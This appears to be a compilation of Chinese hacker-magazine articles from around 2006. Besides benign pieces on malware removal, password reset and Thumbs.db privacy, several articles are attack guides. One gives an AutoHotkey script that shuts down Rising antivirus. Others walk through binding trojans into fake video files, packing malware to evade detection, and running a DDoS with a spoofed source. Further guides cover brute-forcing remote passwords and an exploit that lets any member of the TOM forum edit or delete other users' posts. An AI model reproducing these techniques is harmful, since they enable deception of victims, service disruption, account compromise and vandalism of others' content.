> **答：** 多与主板和内存条兼容性或内存质量有关，常见于部分主板与特定内存规格搭配。可尝试在 CMOS 中降低内存读取速度；无效则考虑更换内存条。

### 让杀毒软件和黑客工具“和平共处”

花的神明

在当前病毒、木马、间谍软件等恶意程序横行的今天，相信大家为了保护自己的爱机，一定都安装了各种各样的杀毒软件。但对于我们这些菜鸟来说，出于研究黑客技术的需要，大都在硬盘上“存储”了形形色色的黑客工具，组建了自己的黑客工具箱。可是，在开启杀毒软件或者防火墙的情况下，当打开保存黑客软件的文件夹、浏览需要的黑客工具时，杀毒软件必然和黑客工具这个“冤家”见面，杀毒软件会毫不客气地将我们辛苦找到的宝贝工具杀掉。为了让杀毒软件和黑客工具“和平共处”，一般的做法是暂时关掉杀毒软件运行窗口，并通过中止相关的服务进程，让杀毒引擎停止运行。但是这样的操作实在太麻烦，一旦忘记关闭杀毒软件，在打开黑客工具箱的时候，让杀毒软件检测一遍，我们的“损失”就大了。实际上，即使在杀毒软件中设置发现病毒时询问用户功能，但有些情况下，杀毒软件还是会自作主张把它直接删除。为此，笔者向初学者介绍 AutoHotKey 这款功能强大、提供丰富脚本控制语言的工具软件，我们要用其设计一个简单的脚本程序：当运行该脚本程序时，自动关闭杀毒引擎，然后打开存放黑客工具的文件夹；当离开该文件夹时，自动开启杀毒软件。以瑞星 2006 为例进行说明，如果需要控制其它杀毒软件的运行，具体脚本的设计与之大同小异。

```ahk
FileSelectFolder, OutputVar
if OutputVar=
 MsgBox, 你没有选择一个文件夹
else
 RegWrite, REG_DWORD, HKEY_CURRENT_USER, Software\Microsoft\Windows\CurrentVersion\Explorer\CabinetState, FullPath, 1
 Run net stop rfwservice
 Run net stop rsravmon
 process, close, ravmon.exe
 process, close, ravtask.exe
 process, close, rav.exe
 Run %OutputVar%
 WinWait, %OutputVar%
 WinWaitClose
 Run net start rfwservice
 Run net start rsravmon
 Run D:\Program Files\Rising\Rav\RavMon.exe
 Run D:\Program Files\Rising\Rav\Ravtask.exe
 RegWrite, REG_DWORD, HKEY_CURRENT_USER, Software\Microsoft\Windows\CurrentVersion\Explorer\CabinetState, FullPath, 0
Return
```

## 一、初试身手

打开 Windows 资源管理器，任选一个文件夹，在空白处点击右键，在弹出菜单中依次选择“新建”→“AutoHotkey Script”，在当前路径下新建一个 AutoHotKey 脚本文件，将其改为合适的名字（例如“实例.ahk”）。在该文件的右键菜单中选中“Edit Script”，打开脚本编辑器。在脚本编辑器窗口开头处按回车键另起一行，输入“#space::Run www.google.com”（图 1）。这里的“#”号代表键盘上的 Win 键，space 表示空格键，“::”表示分隔符，“Run”表示执行后面的命令语句。保存后双击该文件，激活 AutoHotKey 主程序，同时按下 Windows 键和空格键，指定的网址 www.google.com 就打开了。一般来说，在 AutoHotKey 中字符键的名称（如 A-Z、a-z、F1-F12 等）和原字符相同，只是控制键比较特别，例如“!”表示 ALT 键等，在帮助文件中列出了详细的键位名称。


## 二、控制脚本的编写

脚本的编写目标是：当按下某个热键（例如 Alt+F1）时，出现文件夹选择对话框，能在其中选择黑客软件存放的路径（包括文件夹或者磁盘）；当路径选择完成后，脚本自动关闭瑞星 2006 监控程序以及防火墙，同时中止 ravmon.exe、ravtask.exe 等瑞星进程。然后自动打开保存黑客工具的文件夹；当使用完黑客工具后，当程序检测到指定文件夹关闭时，重新启动瑞星监控程序和防火墙。脚本很简单，完整的代码如上。

注意，这里使用的是 AutoHotkey 的块结构，以热键为开始标志，以 Return 为结束符。块结构的优点是结构严谨，分类清晰。脚本中的“!F1”表示组合键 ALT+F1，“!”表示 ALT 键，F1 表示 F1 键。首先使用 FileSelectFolder 关键字，表示弹出文件夹选择对话框（图 2）。接着判断是否选择了有效的路径，否则出现出错提示窗口。如果选择了有效路径，将文件夹名称保存在指定变量 OutputVar 中。为方便控制流程，这里首先使用了 RegWrite 关键字对注册表路径 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\CabinetState 下的 FullPath 键值进行更改，将其值改为 1，这样资源管理器的标题栏就显示出完整路径信息。利用 Run 指令运行命令，Run 后面可以跟程序名或 Windows 命令行；如果使用命令行的话，后面必须带上“”符号。使用 Process 关键字配合 Close 参数可以关闭指定的进程。然后利用脚本“Run %OutputVar%”打开黑客程序所在文件夹。这样，瑞星 2006 就彻底关闭了。瑞星 2006 有个特点，当停止其核心进程时，会出现确认对话框；相比之下，金山毒霸等就显得“很安静”。然后就可以自由地使用黑客工具了。接着脚本利用 WinWait 和 WinWaitClose 关键字监控黑客工具所在文件夹是否关闭，一旦指定文件夹关闭的话，马上启动瑞星 2006 的相关进程以及核心程序，同时修改注册表，恢复资源管理器标题栏的默认显示设置。这里假设瑞星安装在 D 盘，可根据需要修改。


## 三、浅析瑞星 2006 的主要程序

RavMonD.exe：这是瑞星 2006 的病毒监控主程序，提供对系统实时监控，由服务 Rsravmon 负责启动，它在后台运行，默认状态下处于自动启动状态，在 Windows 2000/XP 内核加载之前启动。  
RavMon.exe：这是瑞星的病毒监控 Shell 程序，它带有一个运行界面；当其运行时，在任务栏托盘中出现绿伞图标，利用该程序可以对监控项目和设置进行调整。  
Rfwmain.exe：这是瑞星防火墙主程序，启动所有的防火墙监控服务，由服务 Rfwservice 负责启动。  
Rav.exe：这是瑞星杀毒软件主程序。  
RavTask.exe：这是瑞星的任务调度程序。

## 四、制作可执行文件

AutoHotkey 能将 ahk 格式的脚本文件做成 EXE 文件，便于用户携带和运行。在资源管理器中选中需要编译的脚本文件，在其右键菜单中选择“Compile Script”项，即可生成同名 EXE 文件，从而脱离 AutoHotkey 设计环境独立运行。可将其复制到优盘等移动设备上，运行时可快速调用。文中并注明相关工具如 AutoHotkeyInstall.exe、RavControl.exe、RavControl.ahk 等。


在 06 年的第一期杂志中，有一篇介绍“N.C.P.H 常用攻防网络入侵工具”的文章，其实由“N.C.P.H 工作室”推出的系列工具还有很多，下面对其中一些小工具进行介绍，用户可以从中选择喜欢的工具来使用。

## N.C.P.H 终结免查杀捆绑器

工具还包括免杀、属性修改、图标修改等功能。首先运行 N.C.P.H 终结免查杀捆绑器，在弹出的窗口中进行设置：选择要绑定的第一个文件（通常是木马或后门程序），再选择第二个文件（可为图片、视频等），并设置捆绑后生成的目标文件路径和名称。若需修改图标，可点击“打开 ICO 图标”选择图标文件。该工具仅支持 ICO 图标文件，不能从其他 EXE、DLL 中提取图标使用。最后点击“开始捆绑”即可。


图 1

文件捆绑成功以后，还可以进行图标更改和文件属性操作。选择捆绑后生成的目标文件，加载 ICO 图标并执行“修改 EXE 图标”，即可完成图标修改；再选择需要修改的属性并执行“修改属性”即可。文中说明该方式通过先捆绑再改图标/属性，使用更灵活。

你想欺骗对方说是一个视频文件时，需要重新捆绑一次很麻烦，现在只需要重新更改一下图标即可（如图 1）。

## N.C.P.H 专用 DDoS

虽然这类电子“炸弹”工具很多，但 N.C.P.H 专用 DDoS 仍有自身特点。运行后在“攻击地址”输入目标 IP，在“起始端口”“终止端口”输入端口（常用 80），在“线程数量”中设置线程数；若机器性能和带宽较好可适当调大。若担心被追踪，可在“伪装本地地址”中输入一个 IP。设置完成后点击“添加任务”，再点击“开始”执行。该工具支持同时执行多个攻击任务（图 2）。


图 2

## N.C.P.H 木马免杀加壳器

这是一款保护木马、后门等恶意程序不被查杀的免杀工具。该工具采用汇编语言进行编写，使用了代码变形加花指令技术对恶意程序进行加密保护。运行 N.C.P.H 木马免杀加壳器，直接点击“打开”按钮选择需要保护的软件，然后点击“保护”即可（图 3）；经过测试，经过此加密过的恶意程序可以成功躲过现有杀毒软件的查杀。


## pcAnywhere 扫描工具

Symantec pcAnywhere 是赛门铁克公司出品的远程管理软件，包含多项功能及管理员工具，可提高安全性并优化性能。其可让用户远程连接另一台计算机，打开用户拥有访问权限的文件或程序并进行处理，默认端口为 5631。通过 pcAnywhere 扫描工具可以扫描安装了 pcAnywhere 服务端的远程计算机。运行该工具后，在“Start Address”和“End Address”中输入扫描 IP 起止段，点击“Scan”即可开始扫描（图 4）。当扫描到安装了服务端的 IP 后，可直接用 pcAnywhere 客户端连接控制。


## N.C.P.H 扫描破解利器

从程序名称可见，N.C.P.H 扫描破解利器是一款用于远程破解的工具。运行后点击“扫描”菜单可查看扫描选项。N.C.P.H 扫描破解器可以扫描计算机、FTP/POP、IIS、NT 密码、操作系统、端口等内容。有的命令仅进行扫描，例如“计算机”命令：在弹出的“Scan”选项中可设定 IP 地址扫描范围，既可对地址段扫描，也可对某单独 IP 扫描（图 5）。在“Options”中可设置线程、时间、重试及输出文件等（图 6），设置完成后点击“扫描”开始执行，结果写入输出文件。


有的命令在扫描过程中还可进行破解，例如“FTP/POP”命令：先在“Scan”中设置扫描 IP 和端口，再在“Options”中设置用于服务破解的文件信息（如密码文件和用户文件）。若用户手中无现成破解文件，可通过“暴力破解”选项随机生成相关密码进行破解（图 7）。


如果用户没有现成破解文件，也不想使用随机密码，可通过程序其他命令生成需要的文件。点击“信息”菜单下“密码信息”命令，在窗口中可设置随机生成密码或对可能密码进行任意组合。在“随机”配置中设置密码组合内容与位数；在“所有可能组合”配置中设置密码长度和组合内容即可（图 8）。


“信息”菜单除配置用户、密码文件命令外，还包括 Ping、发送消息、SID 信息、跟踪等命令。文中重点介绍“SID 信息”：该命令用于将用户名与 SID 信息关联，通过 IP 地址和用户名可得到 SID 信息，通过 SID 又可得到远程计算机管理员用户名（图 9）。

小知识：SID 即安全标识符（Security Identifier），是标识用户、组和计算机账户的唯一号码。首次创建账户时，网络会为每个账户分配唯一 SID。Windows 2000 的内部进程引用账户 SID，而非账户用户名或组名。

## 傻瓜黑客


建账户，再删除账户，然后使用相同的用户名创建另一个账户，则新账户将不具有授权给前一个账户的权力或权限，原因是该账户具有不同的 SID 号。安全标识符也被称为安全 ID 或 SID。

除了上面介绍的这些命令以外，在“管理”菜单下还包括审核密码、组成员、远程关机、服务、共享管理等命令，用户通过这些命令可以对远程计算机的密码、成员、服务、共享等内容进行管理。

至此，由“N.C.P.H 工作室”推出的黑客系列工具就为大家介绍到此。其实“N.C.P.H 工作室”推出的工具还有很多，比如 N.C.P.H 远程控制软件等等，用户可以根据自己的要求进行选择性使用，从而满足各种需求。如果有什么问题，可以到黑客 X 档案的论坛共同探讨。

（本文涉及的相关工具：N.C.P.H 系列黑客工具，光盘中有收录。）

### 清除恶意软件，恢复木马清誉

去年 12 月 13 日，微软发布了 12 月份的两个系统安全补丁 MS05-054 和 MS05-055。同时，一台电脑开启了自动更新，12 月 15 日接入网络时系统自动安装了这两个补丁。但是，当补丁安装完毕重启后，发现系统运行缓慢，反应迟缓，基本处于死机状态，无法使用。

“是不是安装系统补丁引起的问题？”由于是安装补丁后重启出现的该问题，因此同事怀疑是安装的两个系统补丁所致。按正常步骤启动系统，系统启动后运行非常缓慢，硬盘灯狂闪不已，根本无法收集信息。进入安全模式后系统运行正常，因此初步猜测系统基本文件正常，故障应为启动过程中启动的某应用程序所致。

尝试卸载补丁、检查服务和启动项，故障依旧。再通过 HijackThis 检查注册表启动项，发现可疑项会被反复恢复，说明有程序在监控该键值。

而在正常模式下根本又没有机会运行。尝试利用 IceSword（冰刃）检查系统运行的进程及调用的文件，也无法正常运行，利用系统自带任务管理器也未发现有可疑进程。

那就到对应的 `C:\Program Files\SearchNet` 目录下，看看能否发现有用的信息吧。进入 C 盘、进入 Program Files 目录，显示系统文件和隐藏文件后仍无法直接看到该目录；但在命令行方式下可以进入该文件夹。

```cmd
cd program files
cd searchnet
```


虽然能进入该文件夹，但无法删除其中的文件。尝试使用 attrib 命令查看、修改文件属性，仍提示无法找到对应路径。目录中有个 `UnInstall.exe`，运行后弹出输入验证码对话框，输入后系统无明显变化，重启后故障依旧。

由此基本可以确定问题与该目录中的启动项有关：其一，相关启动项被反复恢复；其二，手工修改根本无效；其三，该程序可能已在系统中加载并具有保护机制。进一步处理需结合安全模式与底层加载机制进行排查。


图 2

具体是何文件，由于程序进行了隐藏，无法准确定位。

通过以上分析，要作正常的检查操作，首先要将恶意程序关闭掉或保证恶意程序未加载。在安全模式下不行，只能考虑采用 DOS 启动盘了。机器为刚买的，未配置光驱、软驱，只能通过 USB 启动，并且系统盘文件系统格式为 NTFS。


图 3

在另外一台电脑上创建 USB 启动盘。首先利用工具 USBoot 创建系统启动盘（具体过程可参见其使用手册）。然后利用工具 NTFSDos 创建支持 NTFS 格式的 DOS 启动盘，其向导如图 4 所示。


图 4

按照向导指示将相关文件复制到硬盘上的一个目录，如图 5。


图 5

然后再将上述文件从硬盘复制到 USB 盘中。由于 USBoot 制作的启动盘只包含基本的系统文件，有些系统命令未包含，因此为了方便，我将 Windows XP 启动盘中包含的文件也复制到 USB 盘中，XP 启动盘包含文件如图 6 所示。


图 6

在 EBD 目录中，包含 attrib 等命令。启动盘准备完成，将 U 盘写保护后插到要启动的系统上，修改 BIOS 启动顺序，首先从 U 盘启动。

启动过程中，XP 启动盘中的 Autoexec.bat 执行会存在问题，不用管它，跳过继续，进入 DOS 模式。运行 ntfspro.exe 加载 NTFS 驱动，找到系统盘（假设为 X:），进入 `X:\Program Files\SearchNet`，利用绝对路径的方式运行 attrib，`C:\EBD\attrib -r xxx`（这里 C 代表启动盘，xxx 代表 SearchNet 目录下的某文件）。

修改完文件的属性后，复制备份 SearchNet 目录，然后将 SearchNet 目录下的对应文件删除。重新启动系统，发现系统故障仍然存在。怀疑系统某些文件未删除干净。回顾处理过程，检查删除文件备份，发现里面有一个 fad.inf 安装文件，打开文件，发现里面涉及如下驱动文件：`C:\Windows\System32\drivers\fad.sys`，如图 7。


图 7

重新利用启动盘启动进入系统，发现该文件属性同样需要修改，如法炮制，备份文件后将其删除。为确保删除干净，再次检查 `C:\Program Files\SearchNet` 文件夹，确保文件夹不存在。

重启系统，系统运行正常。进入注册表，编辑启动项，删除残留的 `"SearchNet Up"="C:\Program Files\SearchNet\ServeUp.exe"`，连接网络，重新安装系统补丁，检查系统运行正常无误。至此故障处理完毕，系统故障并非系统补丁引起，而是由恶意程序引起。

为了进一步弄清程序运行的基本状况，我又将备份出来的 SearchNet 目录复制到另外一台 Windows 2000 的机器上，目录包含的文件如图 8 所示。

## 傻瓜黑客


文件采用的都是比较常用的图标，麻痹性很强啊。运行其中的 SearchNet.exe。这次系统未出现运行缓慢的故障。运行冰刃（IceSword），发现系统中运行了两个隐藏进程 SearchNet.exe 和 ServeHost.exe（该文件在 C:\WINNT\system32 目录中），如图9。

| 项目 | 内容 |
|---|---|
| 日期 | 2005-12-16 |
| 事件 | 9:30:17 |
| 用户 | N/A |
| 计算机 | LCL28 |
| 描述 | 驱动系统启动程序无法加载 |
| 相关项 | Anfad、FAD、HidProcess |


这是由于在注册表启动项中包含对应项，但对应文件已删除所致。进入注册表，以对应关键字搜索对应项（这些项目在恶意程序运行时是无法搜索到的），将位于 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ 下面的 Anfad、FAD、HidProcess、Remote Log 几项删除，删除前请注意备份。

查看加载的内核模块，如图10，发现加载了 fad.sys、anfad.sys 以及 hprocess.sys。通过冰刃（IceSword）可看到增加了 ServeUP 的启动项，但进入注册表后看不到对应的启动项，程序对其进行了隐藏；在注册表中搜索 fad.sys 也搜索不到。程序对自身的隐藏还是比较好的。

到这里对程序的研究暂告一段落。从整个处理过程来看，该软件从各个方面都试图隐藏自己的行踪，并保持自己在系统中运行的状态，但正是这种保持自己在系统中运行的做法暴露了自己的行踪（不断地持续监控注册表），真算得上是“成也萧何，败也萧何”。下面简单介绍另一招。


利用启动盘进入 DOS 模式，删除 SearchNet 目录下的文件，删除 fad.sys、anfad.sys 以及 hprocess.sys，删除 ServeHost.exe 文件，重启系统后发现系统报如下错误：


该程序应属于 Malware 或者 Adware 之列；其出发点是网站功能辅助或者用户信息收集，正常情况下不应导致系统出现明显不能使用的故障。有可能该程序早已安装在上述的 XP 系统中，安装系统补丁或者其它某项操作导致该软件与系统出现冲突，出现如上所述故障。比如某些输入法就曾出现问题导致系统频繁报错无法正常使用。

系统加载补丁或正常重启后出现故障，有可能原因并不是补丁引起，而是系统中已有的某程序存在问题，处理故障时应避免只盯着某类可能的原因，应全面考虑。

恶意程序在系统启动时加载的方式多种多样，除了注册表、启动文件等常见启动位置之外，还应考虑驱动加载的情况，目前有很多程序采用这种方式加载。

由于安全模式下有些驱动已经作为内核模块加载，所以安全模式并不能保证系统检查结果的准确性。

关掉恶意程序后，还应对注册表等项目作再次检查，因为恶意程序在运行的时候，可能会隐藏某些项目（比如目录、注册表项），因此在清除掉运行的恶意程序后，再检查一次有助于彻底清除残留在系统中的配置项。

一些常用的工具在安全模式下不能正常运行（比如检查进程、监控注册表的工具），因此在对系统进行检查时应注意需要通过系统基本命令收集信息。

通过上述操作，虽然程序不在系统中运行了，我觉得肯定还会在系统注册表中残留一些项目，请各位大虾进一步研究指教。

（本文涉及的相关工具：NTFSDos、冰刃 IceSword、USBoot，光盘中有收录。）

### 网络隐形衣

SuperSheep（北极冰黑客小组）

大家一定听说过“隐形衣”吧，它能使我们来无影去无踪！如果我们在网上活动时也能穿上这样一件隐形衣该多好啊！下边，我就推荐一款工具来实现这样的愿望，它就是——网神之网络隐形衣。

它的功能说简单点就是实现单向访问，即：我能访问别人，别人却不能访问我。它还可以防范未知安全漏洞，并进行自动病毒免疫，是一款不可多得的好工具。它的安装和卸载也十分简单。首先选择需要安装的网卡，打开其属性界面，如图1，点击“属性”→“安装(N)…”→“服务”→“添加(A)…”按钮。添加网络服务，如图2，点“从磁盘安装”→“浏览(B)…”按钮，打开“NetFilterMP.inf”文件，如图3。

点击“确定”按钮，进行安装，再点击“确定”按钮，开始安装，拷贝文件之后，Windows 提示“驱动数字签名验证”界面和注册提示信息，如图4，点击“仍然继续”继续安装，注册提示信息点击“确定”继续安装，点击“确定”按钮，安装完毕，Windows 提示重启计算机，如图5，重新启动计算机后就安装成功了。安装后的网络属性页如图6所示，表示网络隐形衣安装成功。

每次启动计算机，网络隐形衣都以网络服务形式自动启动。缺省情况下，网络隐形衣工作在正常模式（Normal Mode），如需更改，请选择“Aeolus of Net-Deity Family”，点击“属性(R)”按钮或直接双击“Aeolus of Net-Deity Family”，显示网络隐形衣配置界面。网络隐形衣配置界面分两部分：口令设置和工作设置，如图7，最重要的是要对网络隐形衣的工作模式进行设置。网络隐形衣有三种工作模式：

- 正常工作模式（Normal Mode）
- 全通过模式（Permit All Mode）
- 全阻断模式（Deny All Mode）

正常工作模式：网络隐形衣正常工作，网络隐形，单向访问，隐于无形，存于无形，各种远程控制口令有效。

全通过模式：网络隐形衣全透明，对网络数据无任何限制；各种远程控制口令无效。

全阻断模式：网络隐形衣全屏蔽，阻断所有网络数据；各种远程控制口令无效。

数据包的返回时间根据网络速度而定，为 5 秒的倍数，初始为 6，即 5×6=30 秒。

如果需要卸载，只要选择“Aeolus of Net-Deity Family”，点击“卸载(U)”即可。

关于网络隐形衣的默认密码修改激活方法：运行“密码修改激活.exe”点击“激活”，然后在以前版本的密码修改激活中点击即可激活密码修改区，其它无限制！

这个网络隐形衣目前已被汉化，使用很方便。有了它，大家就不必再为网络安全事件弄得焦头烂额了，希望大家玩得愉快。

（本文涉及的相关工具：密码修改激活.exe、IfilterNot0bj 原版及汉化版，光盘中有收录。）


## 傻瓜黑客


在 Windows 使用过程中，忘记系统的登录密码是很让人烦恼的事。Windows 的用户管理机制“铁面无情”，没有登录密码常常无法进入系统。文中介绍 Active@ Password Changer（以下简称 APC）用于清空或重置 Windows 用户密码，支持 Windows NT/2000/2003/XP，支持 IDE、ATA、SATA、SCSI 及 FAT16/FAT32/NTFS 等分区格式。

利用 APC 重设 Windows 密码，首先需要制作专用系统引导盘。可通过“开始→程序→Active@ Password Changer→Bootable Disk Creator”打开制作窗口，在 Drive to format 中选择可移动介质，并可勾选 Add USB support / Add CD-ROM support。


设置完成后点击 START 制作引导盘。也可生成 ISO（如 pwd-changer-boot-cd.iso）再刻录。启动目标电脑后进入 DOS，执行引导盘上的 PWD_CHNG.EXE，出现 APC 主菜单。


在“Options”的“Your choice:”输入 `1`，选择“Choose Logical Drive”，APC 会列出逻辑盘信息（编号、分区类型、卷标、容量等）。随后在“Your choice:”输入磁盘编号，再进入“MS SAM Database(s) on All Logical drives”以搜索 SAM 文件。


在“Your choice:”输入合适的 SAM 文件编号后，APC 会分析并列出该 SAM 文件中的用户信息（用户编号、RID、用户名、描述等）。

在“User’s Account parameters”中可设置用户参数，例如 `Clear this user’s password`（清空密码）、`User must change password at next time`、`Password never expires`、`Account is disabled`、`Account is locked out` 等。


可以正常登录。按下 Page Down 按钮，打开允许登录时段设置界面（图7），可以按照星期数自由设定在每天哪些时段（以小时为单位）允许正常登录。

设置完成后按 Page Up 键返回。最后，在“User’s Account parameters”程序界面中按下“Y”键，表示让 APC 修改 SAM 文件，更新用户信息。这样，指定用户的密码就被清空了。重启电脑，按照正常顺序引导系统，用户可以用空密码登录系统了。

### 小知识：什么是 SAM 文件

Windows 2000/2003/XP 对用户账户的安全管理使用了安全账号管理器 SAM（Security Accounts Manager）的机制；安全账号管理器对账号的管理是通过安全标识进行的。安全标识在账号创建时就同时创建，并且具有唯一性。安全账号管理器负责 SAM 数据库的控制和维护。SAM 数据库位于注册表 HKLM\SAM\SAM 下，受到 ACL 保护，可以使用 regedt32.exe 打开注册表并设置适当权限查看 SAM 中的内容。安全账号管理器的具体表现就是“%SystemRoot%\system32\config\sam”这个文件。sam 文件是 Windows 的用户账户数据库，所有用户的登录名及口令等相关信息都会保存在这个文件中。SAM 文件可以认为类似于 Unix 系统中的 passwd 文件，不过没有 Unix 的 passwd 文件那样直观。


（本文涉及的相关工具：Active@ Password Changer，光盘中有收录。）

### TOM 论坛版主人人皆可做

小木头

拥有自己网站的朋友每天必不可少的一项工作就是去各大论坛发帖宣传自己的网站，这不，今天又到 TOM 的论坛去发“广告”了，结果那个论坛的版主真是负责，几分钟后不仅删掉我辛辛苦苦发的帖子，还封掉了我注册的 ID。想必此时那个版主一定手呈 V 字状，正得意地笑：小样，你放马来吧！此仇不报非好汉！绝不能让那个得意的版主猖狂下去鸟，于是，我决定看看 TOM 论坛有什么可以利用的漏洞。

TOM 的论坛是使用 PHP 编写的，鼠标随便指向一个帖子，发现 IE 地址栏中出现的路径大致为 `view_thread.php?forumid=76&threadid=27601` 这样的形式，可以猜测出 forumid 代表的是版块编号，threadid 代表帖子编号。看到这些让我想起了幻网多年前的一个漏洞，就是任何注册会员可以编辑非自己发表的帖子的标题和删除非自己发表的帖子！测试了一下，果然够给面子，居然成功了。

下面说一下方法，让你也可以做版主才可以做的事情。首先在 TOM 论坛（bbs.tom.com）注册一个会员，然后随便进入一个版块发表个帖子。为了不被“负责的版主”再次删掉，我发的帖子标题是“新人报道，大家多多关照”。帖子发表后系统将自动跳转到我们刚发的帖子，在刚发表的帖子中可以看到有个“【修改】”选项，我们在上面点击鼠标右键，查看“属性”中的“地址”，会大致看到一些这样的东西，如图1。


复制上面地址中的所有文字到一个空的 TXT 文件中，后面会用到。然后用鼠标指向一篇别人发表的帖子（注意：帖子可以是任何人发布的，但是需要注意的是此帖子是没有人回复的），会看到 IE 状态栏中显示出了这个帖子的地址，注意观看这个地址中的“threadid=”后面的那几个数字，我这里的是 27599。所有准备工作都做完了，现在在 IE 地址栏中粘贴进刚刚让你复制下来的那串文字，把里面的“threadid=”后面的数字换成 27599（共有两处，都要替换），当然这个数字大家都不是一样的，具体要看你自己当时测试时是多少了。然后回车提交，会出现编辑自己帖子的页面，如图2。

不过事实上你正在编辑的已不再是你的帖子了，不信的话点击“立即修改”试试？要注意的是，你只能修改他的帖子标题，内容是修改不了的。现在我们返回版块看到别人的帖子标题已经修改成你自己的了。不光可修改别人的帖子标题，还可以直接删除任何人的帖子，原理是一样的，只要当初复制下“【删除】”链接中的地址并替换掉 threadid 参数后面的数字就可以了，别人的帖子就会不翼而飞了。

### 电话免费打，打，打！


图1

每当和远方的 MM 煲完电话粥，心里总是又高兴又心疼……高兴的是可以听到心爱 MM 关怀的话语，心疼的是那昂贵的电话费。后来笔者发现了一款免费打电话软件 Globe7，试用后感觉非常棒，于是拿出来分享。

由于网络服务提供商为了吸引购买者，事先会赠送一定服务。Globe7 在注册成功后会送 1 美元电话费，本地、国内长途及国际长途费用约为 0.01 美元/分钟，约可通话 100 分钟。试用期为 25 天，且一个 IP 地址只能申请一个帐号。

首先在本期光盘中找到 Globe7 并安装，安装过程较简单。安装完成后首次运行需要注册帐号，点击登录窗口中的 New User? Get Globe7 ID 进行注册。


图2

申请成功后，邮箱会收到包含密码的确认信，使用帐号和密码登录 Globe7 即可开始免费之旅。拨打电话方法大致为：国内固定电话、国内手机电话按相应区号/国家码输入。

- 国内固定电话：0086 + 区号 + 电话号（部分区号前不加 0）
- 国内手机电话：0086 + 手机号（通常不加前导 0）

这是一个很好的打电话软件，只需上网即可使用。关于再次申请帐号的 IP 限制，可通过代理上网等方式处理。

### 恢复删除的照片


小黑忽匆忙来找我，说几张重要的 MM 照片误删除了，让我帮忙找回。尝试了多种恢复软件（如 FinalData、Drive Rescue）后发现并不总能恢复。

如果是使用“文件粉碎”等彻底删除方式，文件可能被多次覆写，理论上难以恢复。因此应先判断删除方式，再决定恢复方案。

文中还提到可通过查看系统生成的缩略图数据库文件 `Thumbs.db` 获取线索：在“工具→文件夹选项→查看”中取消隐藏受保护的操作系统文件并显示所有文件后，可在图片目录下找到该文件。


库文件常用的程序都无法打开此文件，只好到网上去搜索，果然找到一个打开此文件的程序——Thumbs.Db 浏览器。此浏览器使用方法很简单，解压缩后直接运行即可，如图2。最好取消“根据目录选择”，直接在“Thumbs.db”文件打开后即可看到目录下所有图片文件，找到需要的照片后直接保存即可，不过图片质量稍差。

我们将照片上传给别人或上传到服务器时，有时为了方便上传的是整个目录，而不是单个文件。如果目录中保存过个人隐私照片，虽然已经将照片删除，但是“Thumbs.db”文件没有删除，别人只要找到此文件，用 Thumbs.Db 浏览器打开此文件就可找到曾经保存过的图片文件。

因此有必要将图片缩略图功能禁止。方法是：在文件夹选项窗口中选择“查看”标签，如图3，然后取消“缓存缩略图”选项，最后点“确定”即可。删除照片时也要注意删除“Thumbs.db”，以免隐私暴露。

### 将批处理转为 .exe 文件

计算机的 hostname 被别人知道后的危害，相信各位黑友都知道。今天我教大家怎么用 IE 隐藏我们爱机的 hostname。

宋伟

- 提取 ico 图标。使用“ICO 图标提取器”，打开 `explorer` 并将图标另存为 `hide.ico`。
- 用批处理隐藏计算机 hostname：在记事本输入 `net config server /hidden:yes`，保存为 `hide.bat`。
- 将批处理转换为 exe：使用 `bat2exe.exe` 与 `com2exe.exe`，把 `hide.bat` 转换为 `hide.exe`。
- 在“开始→运行”输入 `gpedit.msc`，进入“用户配置→Windows 设置→Internet Explorer 维护”，在“浏览器用户界面/工具栏自定义”中设置工具栏按钮并关联 `hide.exe` 与 `hide.ico`。


现在大家明白为什么要把 bat 文件转成 exe 文件了吧？因为系统只识别 exe 文件程序。工具栏图标可选择刚提取的 ico 文件，并勾选默认情况下在工具栏显示该按钮。

## 傻瓜黑客


图4


来看看我们的效果如何了，打开 IE 浏览器，是不是上面多了一个新的按钮？我们以后要隐藏自己计算机的 hostname，直接点我们的图标就可以了，如图4。这种方法够新潮吧？（本文所涉及的软件：ICO 图标提取器、bat2exe.exe、com2exe.exe，已收录在光盘中）

现在，大家都有了自己的信箱，如 163、sohu、yahoo 等，Google 也有信箱服务，就是 Gmail。速度也不错，其邮箱容量很大，而且每天都还在增加。无论从美观、容量、速度，我认为都是很不错的选择。

- 将老保存的电子邮件上传到 Gmail，方便集中储存与整理、搜寻。
- 当成网络硬盘使用。

说起网络硬盘，网易公司今年推出了网易网盘服务。虽然挺不错的，但是每次都需要登录网站、输入密码、进入信箱等，挺麻烦的。后来发现了一个软件 GMail Drive Shell Extension，它是“欺骗” Gmail 的软件，安装后可以在硬盘上创建一个虚拟分区，让管理 Gmail 就像管理本地硬盘一样轻松方便。

首先，需要有一个 Gmail 信箱。注册需要邀请函。接着安装 GMail Drive Shell Extension（光盘中已收录中文版），安装后会在“我的电脑”中创建一个网络磁盘，如图2。


用户名和密码，在用户名一栏填入你的 Gmail 用户名，在密码栏输入相应的密码，有必要的话还可以选择自动登录，如图3。接下来以后就可以像操作普通硬盘一样来对文件进行操作了。


## 软件捆绑——502专业捆绑

icyleaf

Hammer Binder 是一款多用途的捆绑软件，它集成了类似程序的开发环境，可以自己定制程序每一步的执行步骤。本人使用的是 V3.0 火狐汉化版。由于此软件比较专业，各个控件及其属性都是英文，而且帮助也是英文的。为了大家更好地使用，本人自己汉化了帮助，希望对大家有所帮助。

当我打开它时，被它那专业的开发环境惊呆了，如图1。如此专业而多用途的捆绑软件，本人还是第一次见到。下面就来领略一下它的魅力吧！先说明一点，由于你添加控件（可以这样说吧）的顺序有先后，所以生成的程序也是按你添加控件的顺序先后实现的。


### 特点

- 简易使用的接口。
- 改良的文件结构（优化过的 PE 头入侵速度更快）。
- 支持杀毒扫描。
- 使用了编程界面简洁的分析技术。
- 智能和强捆绑软件包跟踪。
- 可以生成一个 EXE 文件。
- 可以保存一个制作工程文件以便修改。
- 可以随意使用压缩（加壳）软件加密。
- 随意更改文件生成时的图标。

下拉菜单选择最后一项。这个控件给我们服务得很周到，你还可以选择捆绑的文件释放后的文件属性（FileAttributes）和在注册表注册开机自启动，如图2，默认是不写注册表的。RegistryStartup 的参数见表1。

| 值 | 说明 |
|---|---|
| rsNone | 不写入注册表 |
| rsHKLMRun | HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run |
| rsHKLMRunOnce | HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce |
